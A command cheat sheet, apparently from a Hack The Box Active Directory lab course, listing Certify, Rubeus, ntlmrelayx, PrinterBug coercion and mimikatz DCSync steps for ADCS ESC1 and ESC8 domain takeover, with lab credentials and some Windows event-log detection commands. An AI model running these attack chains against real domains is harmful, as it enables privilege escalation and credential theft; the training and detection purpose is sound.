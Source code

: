 # Object ACLs

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `setspn -D http/ws001 anni`                              | Removing the http/ws001 SPN from the anni user. |
| `setspn -U -s ldap/ws001 anni` | Setting a new SPN, ldap/ws001, on the anni user. |
| `setspn -S ldap/server02` server01 | Setting a new SPN, ldap/server02, on the server01 machine. |

# PKI - ESC1

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Certify.exe find /vulnerable` | Using the Certify.exe tool to scan for vulnerabilities in PKI infrastructure. |
| `.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator` | Using the Certify.exe tool to obtain a certifcate from the vulnerable template |
| `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx` | Command to convert a `PEM` certificate to a `PFX` certificate.
| `.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt` | Using the Rubeus.exe tool to request a TGT for the domain Administrator by way of forged certifcate. |
| `runas /user:eagle\htb-student powershell`                  | Start a new instance as powershell as the htb-student user. |
| `New-PSSession PKI`                                         | Start a new remote powershell session on the `PKI` machine. |
| `Enter-PSSession PKI`                                       | Enter a remote powershell session on the `PKI` machine. |
| `Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}` | Using the Get-WinEvent cmdlet to view windows Event 4887 |
| `$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}` | Command used to save the events into an array |
| `$events[0] \| Format-List -Property *`                      | Command to view events within the array. The `0` can be adjusted to a different number to match the corresponding event |



# PKI & Coercing - ESC8

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs`         | Command to forward incoming connections to the CA. The `--adcs` switch makes the tool parse and display the certificate if one is received. |
| `python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123` | Using the PrinterBug to trigger a connection back to the attacker. |
| `xfreerdp /u:bob /p:Slavi123 /v:172.16.18.25 /dynamic-resolution `            | Connecting to WS001 from the Kali host using RDP. |
| `.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:<b64 encoded cert>` | Using Rubeus.exe to ask for a TGT by way of base 64 encoded certificate. |
| `mimikatz.exe "lsadump::dcsync /user:Administrator" exit `            | Using mimikatz.exe to DCsync the `administrator` user. This is performed once the TGT for DC2 has been passed to the current session. |
| `evil-winrm -i 172.16.18.15 -u htb-student -p 'HTB_@cademy_stdnt!'` | Connecting to PKI from the Kali Host using evil-winrm. |

# Windows Events
